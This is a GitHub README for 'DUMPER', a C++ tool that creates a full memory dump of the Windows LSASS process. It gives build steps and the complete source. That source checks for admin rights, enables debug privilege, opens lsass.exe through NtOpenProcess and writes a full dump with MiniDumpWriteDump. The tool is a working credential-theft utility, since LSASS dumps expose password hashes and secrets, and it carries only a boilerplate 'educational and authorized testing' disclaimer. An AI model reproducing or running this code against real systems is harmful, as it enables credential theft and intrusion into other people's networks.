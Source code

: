 # DUMPER
Dumper is a tool designed to create a memory dump of the LSASS (Local Security Authority Subsystem Service) process on a Windows machine. This tool utilizes NT API functions and the MiniDumpWriteDump function to capture the process memory.

## Features
Check if the tool is running with elevated privileges.
Enable debug privileges to access sensitive process information.
Capture a memory dump of the LSASS process using MiniDumpWriteDump.

## Requirements
Windows OS
Visual Studio (or any compatible C++ compiler)
Administrative privileges to run the tool

## Setup
Clone the Repository

```bash
git clone https://github.com/Raulisr00t/DUMPER.git
cd DUMPER
```
Open Project in Visual Studio
Open DUMPER.sln.sln in Visual Studio.
Compile the Project
Build the solution by clicking on Build -> Build Solution.

### Usage
Run as Administrator
Make sure to run the compiled executable with administrative privileges.

Command Line Arguments
Currently, the tool does not accept any command line arguments. Simply running the executable will perform the memory dump.

### Output

The memory dump will be saved in the same directory as Raulisr00t.file.

### Code Overview
#### Main code
```cpp
int main(int argc, char* argv[]) {
    // Load NT API functions
    if (!LoadNtApi()) {
        cerr << "\t\t[!] Failed to load NT API functions" << endl;
        return 1;
    }

    // Check for elevated privileges
    if (!isElevated()) {
        cerr << "\t\t[!] Please run this tool with admin privileges" << endl;
        return 1;
    }

    // Enable debug privileges
    if (!EnableDebugPrivilege()) {
        cerr << "\t\t[!] Failed to enable debug privileges" << endl;
        return 1;
    }

    // Get the process ID of LSASS
    DWORD pid = GetPID(L"lsass.exe");
    if (pid == 0) {
        cerr << "\t\t[!] Invalid Process. Try Again." << endl;
        return 1;
    }

    // Open the LSASS process
    HANDLE hLsass = NULL;
    OBJECT_ATTRIBUTES objAttr;
    UNICODE_STRING processName;
    CLIENT_ID clientId;

    RtlInitUnicodeString(&processName, L"lsass.exe");
    InitializeObjectAttributes(&objAttr, &processName, OBJ_CASE_INSENSITIVE, NULL, NULL);
    clientId.UniqueProcess = ULongToHandle(pid);
    clientId.UniqueThread = NULL;

    NTSTATUS status = NtOpenProcess(&hLsass, PROCESS_QUERY_INFORMATION | PROCESS_VM_READ, &objAttr, &clientId);
    if (status != STATUS_SUCCESS) {
        cerr << "\t\t[!] Failed to open Process with Native API" << endl;
        return 1;
    }

    // Create the dump file
    TCHAR szFileName[MAX_PATH];
    _stprintf_s(szFileName, MAX_PATH, _T("Raulisr00t.file"));

    HANDLE hFile = CreateFile(szFileName, GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile == INVALID_HANDLE_VALUE) {
        cerr << "\t\t[!] Unable to create file" << endl;
        NtClose(hLsass);
        return 1;
    }

    // Write the dump
    MINIDUMP_EXCEPTION_INFORMATION dumpExInfo;
    dumpExInfo.ThreadId = GetCurrentThreadId();
    dumpExInfo.ExceptionPointers = NULL;
    dumpExInfo.ClientPointers = FALSE;

    BOOL result = MiniDumpWriteDump(hLsass, pid, hFile, MiniDumpWithFullMemory, &dumpExInfo, NULL, NULL);
    if (!result) {
        cerr << "\t\t[!] Failed to Dump Process Memory" << endl;
    } else {
        cout << "\t\t[!] Process memory dumped successfully" << endl;
    }

    // Cleanup
    NtClose(hLsass);
    CloseHandle(hFile);

    return 0;
}
```
#### NtApi header
```cpp
#pragma once

#include <Windows.h>

#define STATUS_SUCCESS 0
#define OBJ_CASE_INSENSITIVE 0x00000040L

#define FILE_OVERWRITE_IF 0x00000005
#define FILE_SYNCHRONOUS_IO_NONALERT 0x00000020
typedef LONG KPRIORITY;

#define InitializeObjectAttributes( i, o, a, r, s ) {    \
      (i)->Length = sizeof( OBJECT_ATTRIBUTES );         \
      (i)->RootDirectory = r;                            \
      (i)->Attributes = a;                               \
      (i)->ObjectName = o;                               \
      (i)->SecurityDescriptor = s;                       \
      (i)->SecurityQualityOfService = NULL;              \
   }

typedef struct _UNICODE_STRING {
    USHORT Length;
    USHORT MaximumLength;
    PWSTR  Buffer;
} UNICODE_STRING, * PUNICODE_STRING;

typedef const UNICODE_STRING* PCUNICODE_STRING;

typedef struct _WIN_VER_INFO {
    WCHAR chOSMajorMinor[8];
    DWORD dwBuildNumber;
    UNICODE_STRING ProcName;
    HANDLE hTargetPID;
    LPCSTR lpApiCall;
    INT SystemCall;
} WIN_VER_INFO, * PWIN_VER_INFO;

typedef struct _OBJECT_ATTRIBUTES {
    ULONG Length;
    HANDLE RootDirectory;
    PUNICODE_STRING ObjectName;
    ULONG Attributes;
    PVOID SecurityDescriptor;
    PVOID SecurityQualityOfService;
} OBJECT_ATTRIBUTES, * POBJECT_ATTRIBUTES;

typedef struct _CLIENT_ID {
    HANDLE UniqueProcess;
    HANDLE UniqueThread;
} CLIENT_ID, * PCLIENT_ID;

typedef enum _SYSTEM_INFORMATION_CLASS {
    SystemBasicInformation,
    SystemProcessorInformation,
    SystemPerformanceInformation,
    SystemTimeOfDayInformation,
    SystemPathInformation,
    SystemProcessInformation,
    SystemCallCountInformation,
    SystemDeviceInformation,
    SystemProcessorPerformanceInformation,
    SystemFlagsInformation,
    SystemCallTimeInformation,
    SystemModuleInformation
} SYSTEM_INFORMATION_CLASS, * PSYSTEM_INFORMATION_CLASS;

typedef struct _SYSTEM_PROCESSES {
    ULONG NextEntryDelta;
    ULONG ThreadCount;
    ULONG Reserved1[6];
    LARGE_INTEGER CreateTime;
    LARGE_INTEGER UserTime;
    LARGE_INTEGER KernelTime;
    UNICODE_STRING ProcessName;
    KPRIORITY BasePriority;
    HANDLE ProcessId;
    HANDLE InheritedFromProcessId;
} SYSTEM_PROCESSES, * PSYSTEM_PROCESSES;

typedef struct _IO_STATUS_BLOCK {
    union {
        LONG Status;
        PVOID Pointer;
    };
    ULONG Information;
} IO_STATUS_BLOCK, * PIO_STATUS_BLOCK;

inline void RtlInitUnicodeString(PUNICODE_STRING DestinationString, PCWSTR SourceString) {
    if (SourceString) {
        size_t length = wcslen(SourceString) * sizeof(WCHAR);
        DestinationString->Length = static_cast<USHORT>(length);
        DestinationString->MaximumLength = static_cast<USHORT>(length + sizeof(WCHAR));
        DestinationString->Buffer = const_cast<PWSTR>(SourceString);
    } else {
        DestinationString->Length = 0;
        DestinationString->MaximumLength = 0;
        DestinationString->Buffer = nullptr;
    }
}

typedef NTSTATUS(NTAPI* _NtOpenProcess)(PHANDLE, ACCESS_MASK, POBJECT_ATTRIBUTES, PCLIENT_ID);
typedef NTSTATUS(NTAPI* _NtClose)(HANDLE);
extern _NtOpenProcess NtOpenProcess;
extern _NtClose NtClose;
```
## License
This project is licensed under the MIT License. See the LICENSE file for more details.

## Disclaimer
This tool is intended for educational and authorized testing purposes only. Unauthorized use of this tool is strictly prohibited. The author is not responsible for any misuse or damage caused by this tool.
